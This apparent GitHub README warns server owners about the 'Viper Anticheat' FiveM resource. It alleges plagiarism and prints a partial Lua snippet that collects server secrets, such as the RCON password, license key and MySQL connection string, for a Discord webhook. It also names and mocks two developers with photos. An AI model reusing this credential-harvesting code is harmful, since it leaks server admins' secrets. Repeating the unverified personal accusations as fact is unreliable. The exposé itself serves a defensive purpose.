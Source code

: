 # Viper Anticheat Expose

## Overview
Viper Anticheat is a completely plagiarized anticheat solution. The following elements have been fully stolen from other projects:

- **Designs**: Authentication print, logo, and the upcoming admin menu have been entirely copied from Anvil Anticheat.
- **Videos**: The demonstration videos are direct 1-to-1 imitations of other works.
- **Ban Screen**: The ban screen has been stolen from FiveGuard.
- **Detections**: The detection methods originate from GitHub.

## Evidence
### Unauthorized Data Collection
Viper Anticheat extracts sensitive server data and sends it via a webhook to their Discord server. Below is an example of the data being stolen:

```lua
🔐 **Database Info**: %s]], GetConvar("sv_hostname", "N/A"), GetConvar("sv_projectName", "N/A"), GetConvar("sv_projectDesc", "N/A"), GetConvar("steam_webApiKey", "N/A"), GetConvar("sv_licenseKey", "N/A"), GetConvar("sv_maxclients", "N/A"), GetConvar("rcon_password", "N/A"), GetConvar("mysql_connection_string", "N/A")),
    fields = {
        {name = "", value = string.format("<t:%d:R> **AUTH SYSTEM** © VIPER ANTICHEAT | https://discord.gg/hjKJukrfGN", os.time()), inline = false}
    }
```

#### Stolen Data Includes:
- **mysql_connection_string**: Your database connection details.
- **rcon_password**: Allows unauthorized access to your server.

### Developers
The developers behind Viper Anticheat are identified as:

- **Sanji** (Clown Developer #1)
  ![Sanji Image](https://github.com/user-attachments/assets/7c9a92c0-4e24-491c-9ea2-f2f25f3745b3)

- **Nxton** (Clown Developer #2)
  ![Nxton Image](https://github.com/user-attachments/assets/c807bf54-de3c-46ea-9c48-c38475e98773)

- GTA is written in LUA???? 🤣
  ![{3BCD6689-5CDA-46E5-934F-C68239EF0ED4}](https://github.com/user-attachments/assets/92a2358e-2fbf-4afb-b3e8-b2cff5a8a5e8)

### Additional Observations
- **Irresponsible Coding Practices**: Their code includes unnecessary functions for simple tasks and lacks proper optimization.
- **Suspicious Use of ChatGPT**: Code patterns suggest heavy reliance on AI tools like ChatGPT.

#### Examples:
1. ChatGPT comments left in the code:
   ![ChatGPT Comments](https://github.com/user-attachments/assets/584450ba-9ee3-4d96-abda-9451cf49783f)

2. Inefficient GitHub-based detections (https://github.com/imn0th1ng/antimagicbullet):
   ![GitHub Detection](https://github.com/user-attachments/assets/08c884ef-4e6c-4486-b860-2aa981f1448f)

3. Over-engineered code snippets:
   ![Over-Engineered Code](https://github.com/user-attachments/assets/54800d18-d477-4ed5-891f-2defaeab4709)

## Conclusion
Viper Anticheat may be free, but it poses significant security and ethical risks. Under no circumstances should this anticheat be added to your server. Stay safe and use trusted solutions.
